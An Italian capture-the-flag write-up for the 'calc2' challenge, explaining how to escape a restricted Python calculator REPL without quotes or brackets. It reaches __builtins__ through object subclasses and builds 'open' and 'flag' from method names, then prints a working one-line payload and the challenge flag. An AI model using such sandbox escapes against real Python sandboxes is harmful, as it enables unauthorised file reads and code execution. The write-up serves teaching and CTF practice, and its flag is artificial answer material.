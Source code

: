 # PyCalcolatrice 2.0 (`calc2`)

Collegandosi al `nc` ci si trova davanti alla stessa interfaccia di `calc1`, anche se le funzionalità sono più limitate a causa della mancanza di SymPy.

![La REPL](repl.png)

Analizzando lo script, vengono impostati gli stessi limiti di `calc1`, ma più stringenti, perché senza SymPy bastano meno risorse:
- Il tempo massimo di utilizzo della CPU è sceso a 1 secondo;
- La quantità massima di memoria è scesa a 16 MB.

Valgono le stesse considerazioni di [`calc1`](../../calc1/writeup/) e l'obiettivo è sempre quello di riuscire a ottenere i `builtins` di Python per leggere la flag, ma ci sono alcune limitazioni in più:
- Non ci sono funzioni di librerie esterne come SymPy che si possano sfruttare;
- Non si possono usare virgolette, quindi non si possono scrivere stringhe (almeno sembra);
- Non si possono usare parentesi quadre o graffe, quindi non si possono scrivere strutture dati come liste e dizionari (almeno sembra, ancora una volta).

Si può immaginare che esistano molte soluzioni tutte diverse, ma devono tutte partire da un oggetto e un modo per ottenerne uno (probabilmente l'unico rimasto) è creare una tupla con `()`. Da questo punto in poi seguo un percorso personale, lasciandomi un po' ispirare da un writeup di una vecchia challenge [che ha qualche caratteristica in comune](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

Ispeziono le poche classi rimaste a disposizione nell'ambiente Python attuale (qualcuna rimane sempre), prendendo le sottoclassi di `object`, che è la superclasse di `tuple`:

```python
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, ...]
```

Applicando lo stesso principio usato per `calc1`, posso cercare un metodo di una di queste classi che, in quanto funzione, abbia l'attributo `__builtins__`. Effettuando la ricerca in locale:

```python
>>> for c in object.__subclasses__():
...   for a in vars(c):
...     try:
...       if hasattr(getattr(c, a), "__builtins__"): print(c, a)
...     except AttributeError: pass
...
<class '_frozen_importlib._ModuleLock'> __init__
<class '_frozen_importlib._ModuleLock'> has_deadlock
...
```

`_frozen_importlib._ModuleLock` è disponibile nell'ambiente della challenge, all'indice 116, quindi scrivendo `().__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__` ho i `builtins`, sempre sotto forma di dizionario. Come faccio, però, a costruire le stringhe `"open"` e `"flag"`?

**Fun fact #1:** In Python ogni funzione (e quindi ogni metodo e ogni classe) ha un attributo `__name__`, il cui valore è una stringa con il nome.

Ciò significa che posso costruire una stringa concatenando singoli caratteri, presi da `__name__` di funzioni opportunamente considerate, ma per accedere a un carattere di una stringa servono le parentesi quadre... o forse se ne può fare a meno?

**Fun fact #2:** in Python molti operatori in realtà corrispondono a delle chiamate a metodi ["speciali"](https://docs.python.org/3/reference/datamodel.html#special-method-names), così una classe può personalizzare il proprio comportamento rispetto a un operatore implementando il metodo corrispondente. Per esempio, `"Al" + "berto"` viene tradotto in `"Al".__add__("berto")` ed è la classe `str` a definire il metodo `__add__(self, other)` per concatenare effettivamente le stringhe.

Nel mio caso, quindi, `object[key]` si traduce in [`object.__getitem__(key)`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__), che mi serve anche per accedere a `open` nel dizionario dei `builtins`. Per scrivere "open" e "flag", creo in locale una funzione Python che mi genera il codice più corto possibile per costruire queste stringhe:

```python
>>> methods = dir(())
>>> def build(s):
...   return "+".join(f"().{m}.__name__.__getitem__({m.index(c)})" for c, m in ((c, min((m for m in methods if c in m), key=len)) for c in s))
...
>>> build("open")
'().count.__name__.__getitem__(1)+().__repr__.__name__.__getitem__(4)+().index.__name__.__getitem__(3)+().count.__name__.__getitem__(3)'
>>> build("flag")
'().__format__.__name__.__getitem__(2)+().__le__.__name__.__getitem__(2)+().__add__.__name__.__getitem__(2)+().__ge__.__name__.__getitem__(2)'
```

A questo punto l'exploit finale diventa:

![Exploit](exploit.png)

Flag: `rossiCTF{dUnD3r5_4r3_7h3_N3w_M47h!1!_de87b2}`

**Extra:** L'exploit è lungo 374 caratteri, ma si può ridurre a 358 trasformando alcune parti ripetute in parametri di una lambda che viene chiamata al volo:

```python
(lambda t,c:t.__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__.__getitem__(c(1)+t.__repr__.__name__.__getitem__(4)+t.index.__name__.__getitem__(3)+c(3))(t.__format__.__name__.__getitem__(2)+t.__le__.__name__.__getitem__(2)+t.__add__.__name__.__getitem__(2)+t.__ge__.__name__.__getitem__(2)).read())((),().count.__name__.__getitem__)
```
